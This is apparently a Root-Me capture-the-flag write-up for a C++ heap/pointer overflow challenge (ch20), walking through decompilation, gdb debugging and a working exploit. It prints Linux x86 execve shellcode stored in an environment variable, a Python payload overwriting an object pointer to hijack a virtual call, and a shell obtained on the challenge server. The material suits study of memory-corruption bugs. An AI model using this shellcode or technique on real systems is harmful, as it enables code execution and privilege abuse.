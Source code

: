 ### S0lv3d by H4yicl3

First i download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code .
```c
int __cdecl MyStringFormatter::MyStringFormatter(int a1, int a2)
{
  int result; // eax@1

  *(_DWORD *)(a1 + 80) = a2;   // (a1 +80)buffer s input (80 byte)
  result = a1;
  *(_DWORD *)(a1 + 84) = 1;    // (a1+ 84) pointer
  return result;
}
```
that equal source c
```c
class MyStringFormatter
{
public:
    MyStringFormatter( formatter * pFormatter  ):m_pFormatter(pFormatter),m_Id(1) {};  //this function is decompiled by IDA
    void GetInput(int padding )  {
        memset(str ,' ' , SIZE  ); fgets(str+padding,SIZE,stdin); }
    void display() const{m_pFormatter->format(str) ;}
protected:
    char str[SIZE];		//buffer s 
    formatter * m_pFormatter ;  //pointer - >overflow this
    int m_Id;	
};
```
but we meet this in function input
```c
char *__cdecl MyStringFormatter::GetInput(MyStringFormatter *this, int padding)
{
  memset((void *)this, 32, 0x50u);
  return fgets((char *)this + padding, 80, stdin);		//fgets that mean we just write 80 byte 
								//but we have pointer + padding 
}
```
and padding found here
```c
puts("Padding : 1-5\r");
  v3 = fgets((char *)&size, 4, stdin);				//we can overflow more 4 byte to give it come 4
  padding = atoi(v3);						//and we control the pointer 
  if ( padding < 0 || padding > 5 )
  {
    puts("Padding error\r");
    exit(0);
  }
```
after we control see that
```c
  MyStringFormatter::GetInput((MyStringFormatter *)&v12, padding); //after we overflow pointer
  MyStringFormatter::display((MyStringFormatter *)&v12);	   //pointer is called !!
```
So happy !! the program look so good if don't have padding value !! give us overflow the pointer !! So be careful when coding

i try to write my python script look like

```python
padding = "5"
choice  = "1"
buf ="A"*75
retn ="BBBB"
print padding + "\n" + choice +"\n" + buf + retn
```
with that script i controled the return address
i don't know why "A"*75 
so i use strace to analysis
```
python ch20.py |strace ./ch20 
 si_code=SEGV_MAPERR, si_addr=0x42424242} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```
maybe i am failure anywhere !! please tell me if you got the answer !!
now we do anything left
use the function getenv here http://pastebin.com/LZM64WGL
shellcode here
```
export hayicle=$(python -c 'print "\x90"*4+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```
try run this
```
./getenv hayicle ch20
hayicle will be at 0xffffd8b0
```
now the python script look like
```python
padding = "5"
choice  = "1"
buf ="A"*75
retn ="BBBB"
print padding + "\n" + choice +"\n" + buf + retn
```
it dosen't work ?
what 's wrong !
i try debug with gdb i have that
```asm
gdb-peda$ pdis _ZNK17MyStringFormatter7displayEv
   0x08048a02 <+0>:     push   ebp
   0x08048a03 <+1>:     mov    ebp,esp
   0x08048a05 <+3>:     sub    esp,0x18
   0x08048a08 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x08048a0b <+9>:     mov    eax,DWORD PTR [eax+0x50]
   0x08048a0e <+12>:    mov    eax,DWORD PTR [eax]       <----------------it break here !! and eax store my return address
   0x08048a10 <+14>:    add    eax,0x8
   0x08048a13 <+17>:    mov    ecx,DWORD PTR [eax]
   0x08048a15 <+19>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048a18 <+22>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048a1b <+25>:    mov    eax,DWORD PTR [eax+0x50]
   0x08048a1e <+28>:    mov    DWORD PTR [esp+0x4],edx
   0x08048a22 <+32>:    mov    DWORD PTR [esp],eax
   0x08048a25 <+35>:    call   ecx			  <--------bug it call ecx !! that mean we can redirect to shell code
   0x08048a27 <+37>:    leave  
   0x08048a28 <+38>:    ret 
```
i summed the lines code that relative ecx
```
0x08048a0e <+12>:    mov    eax,DWORD PTR [eax]		//get value in memory at address eax
0x08048a10 <+14>:    add    eax,0x8			//add value with 8
0x08048a13 <+17>:    mov    ecx,DWORD PTR [eax]         //ecx = value at eax
0x08048a25 <+35>:    call   ecx 			//call ecx like a address
``` 
how we redirect to our shellcode ?

the first i mean and write a shellcode look like
```
export hayicle=$(python -c 'print "\x93\xd8\xff\xff"+"A"*4+"\x9f\xd8\xff\xff"+"\x90"*28+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```
the python script look like
```python
padding = "5"
choice  = "1"
buf ="A"*75
retn ="\x93\xd8\xff\xff"
print padding + "\n" + choice +"\n" + buf + retn
```
now i explain !! 
the shellcode architect is :
```
hayicle = address_of_shell+junk(4byte)+address_of_shell+12+NOPslide("\x90")+shellcode
```
then i use getenv again to get the address of hayicle value
```
./getenv hayicle ./ch20
hayicle will be at 0xffffd893
```
and now i change tha hayicle value exactly
```
export hayicle=$(python -c 'print "\x93\xd8\xff\xff"+"A"*4+"\x9f\xd8\xff\xff"+"\x90"*28+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
``` 
run python script we can get the shell
```
(cat input ;cat)|./ch20
Padding : 1-5


        Convert in : 
          1: uppercase  
          2: lowercase  
String to convert: 
whoami
hayicle
```

Ok !! that's done!! GLHF guys!! 


The script i run in sever
```
app-systeme-ch20@challenge02:~$ (cat /tmp/ch20/input ;cat)|./ch20
Padding : 1-5


        Convert in : 
          1: uppercase  
          2: lowercase  
String to convert: 
ls
ch20  ch20.cpp
cat .passwd
```
so surprise !! it works !! 
